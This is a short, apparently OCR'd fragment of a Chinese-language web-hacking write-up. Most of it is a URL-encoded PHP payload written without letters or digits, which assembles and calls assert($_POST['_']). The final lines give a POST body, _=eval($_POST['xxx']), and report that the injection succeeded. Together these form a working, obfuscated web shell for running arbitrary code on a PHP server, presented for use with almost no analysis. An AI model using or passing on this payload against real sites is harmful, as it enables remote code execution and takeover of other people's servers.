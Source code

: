 ```
%24%5F%3D%5B%5D%3B%24%5F%3D%40%22%24%5F%22%3B%24%5F%3D%24%5F%5B%27%21%27%3D%3D%27%40%27%5D%3B%24%5F%5F%5F%3D%24%5F%3B%24%5F%5F%3D%24%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%3D%24%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%3D%24%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%3D%24%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%5F%5F%3D%27%5F%27%3B%24%5F%5F%3D%24%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%3D%24%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%3D%24%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%3D%24%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%3D%24%24%5F%5F%5F%5F%3B%24%5F%5F%5F%28%24%5F%5B%5F%5D%29%3B
```

然后在 POST 里插入:

```
_=eval($_POST['xxx'])&xxx
```

传入成功:
